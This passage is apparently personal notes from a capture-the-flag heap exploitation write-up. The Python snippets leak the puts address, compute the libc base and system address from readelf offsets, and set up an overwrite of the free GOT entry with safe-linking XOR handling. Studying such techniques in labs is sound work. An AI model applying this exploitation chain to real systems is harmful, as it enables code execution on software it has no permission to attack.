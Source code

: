 At this point we can extract the libc base address and the `system` function address...

```python
print('xored puts address:', p64(xored_puts_address))
print('leaked puts address:', p64(leaked_puts))

libc_base = calculate_libc_base(leaked_puts)

system_real_address = calculate_system_address(libc_base)

xored_free_address = free_got ^ leaked_L_shifted
```

Where these function are:
```python
def calculate_libc_base(leaked_puts):
	# readelf -s libc.so.6 | grep puts
	puts_offset = 0x7af40
	libc_base = leaked_puts - puts_offset
	return libc_base
```
- but where did we found this address `0x7af40` ?
	- ==**we got it from the file**== `libc.so.6`  ==**using the command**== `readelf -s libc.so.6 | grep puts` 
		- ![[Pasted image 20240529155600.png]]
	- this file is the libc used by the remote server
	- the address `puts_from_library` represents the offset from the base address of the libc and it is always fixed (so if the library used on the server is the same version of the one we have we will have the same offsets)
- **==So the libc base address is easily the difference between the real address of the==** `puts` ==**we leaked and the fixed offset retrieved by the**== `libc.so.6` ==**file**==

```python
def calculate_system_address(libc_base):
	# readelf -s libc.so.6 | grep system
	system_offset = 0x4ebf0
	system_real_address = system_offset + libc_base
	return system_real_address
```
- but where did we found this address `0x4ebf0` ?
	- ==**we got it from the file** ==`libc.so.6`  ==**using the command**== `readelf -s libc.so.6 | grep system` 
		- ![[Pasted image 20240529155622.png]]
	- the address `system_offset` represents the offset from the base address of the libc and it is always fixed
- So the real `system` ==**address is easily the sum between the**== `libc base` ==**and the** ==`system offset`


At this point we have all the pieces to perform our attack...

### free GOT entry overwriting with the system address
```python
#ghidra in section .got.plt
free_got = 0x404148

# choose an aligned address near free_got to overwrite it indirectly -> free is 0x404148
aligned_address = 0x404140


# overwrite the chosen aligned address with the system address indirectly
deallocate_bot(2)
deallocate_bot(3)

  

# Write the xored system address to the aligned address
```